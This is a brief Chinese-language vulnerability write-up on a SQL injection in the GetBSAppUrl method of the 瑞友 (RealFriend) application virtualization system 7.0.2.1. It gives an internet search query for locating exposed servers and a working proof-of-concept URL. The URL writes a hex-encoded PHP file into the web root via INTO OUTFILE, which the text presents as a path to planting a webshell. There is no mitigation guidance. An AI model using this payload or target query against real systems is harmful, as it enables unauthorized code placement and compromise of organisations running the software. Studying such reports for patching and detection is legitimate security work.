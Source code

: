 # 瑞友 应用虚拟化系统 GetBSAppUrl SQL注入漏洞

## 漏洞描述

瑞友 应用虚拟化系统 GetBSAppUrl方法存在SQL注入漏洞，由于参数传入没有进行过滤导致存在SQL注入，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
瑞友应用虚拟化系统 7.0.2.1
```

## 网络测绘

```
"CASMain.XGI?cmd=GetDirApp" && title=="瑞友应用虚拟化系统"
```

## 漏洞复现

登陆页面

![image-20230417100516425](images/image-20230417100516425.png)

在 GetBSAppUrl 方法中存在SQL注入漏洞，通过漏洞可以写入Webshell文件

![image-20230417100529493](images/image-20230417100529493.png)

验证POC

```
/index.php?s=/Agent/GetBSAppUrl/AppID/')%3bselect+0x3c3f70687020706870696e666f28293b3f3e+into+outfile+%27C%3a\\Program+Files+(x86)\\RealFriend\\Rap+Server\\WebRoot\\test7.php%27%23/123
```

![image-20230417100544162](images/image-20230417100544162.png)

```
/test7.php
```

![image-20230417100554583](images/image-20230417100554583.png)